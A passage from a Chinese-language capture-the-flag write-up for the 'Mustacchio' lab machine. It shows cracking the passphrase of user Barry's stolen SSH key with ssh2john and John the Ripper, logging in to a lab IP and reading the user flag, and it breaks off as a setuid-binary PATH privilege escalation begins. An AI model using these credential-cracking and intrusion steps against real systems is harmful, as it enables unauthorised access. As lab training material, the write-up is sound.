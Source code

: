 ![](img/64e07a4448747eb01fac508fae5c7d5d.png)

检索用户 Barry 的 SSH 密钥

现在我有了 SSH 密钥，我更改了密钥的权限并尝试登录，但是系统提示我输入密码:

```
$ chmod 600 id_rsa$ ssh -i id_rsa barry@10.10.225.169
Enter passphrase for key 'id_rsa':
```

为了检索 SSH 密钥的密码，我使用开膛手约翰来破解它:

```
# Create a hash for John to crack
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash# Crack the Hash
$ sudo john id_rsa.hash -wordlist=/home/kali/Downloads/Capture-The-Flag/Password-Lists/rockyou.txt
```

开膛手约翰成功地从哈希中检索到了密码短语。我能够 SSH 到目标机器并获得用户标志:

```
barry@mustacchio:~$ cat user.txt62d77a4d5f97d.........
``` 

# ***根权限提升-路径变量***

***获得用户标志后，我开始寻找一种方法来提升我的特权到 root。我在用户 */home/joe* 目录下发现了一个名为 **live_log** 的 ELF 二进制文件:***

```
*$ file live_log live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped*
```
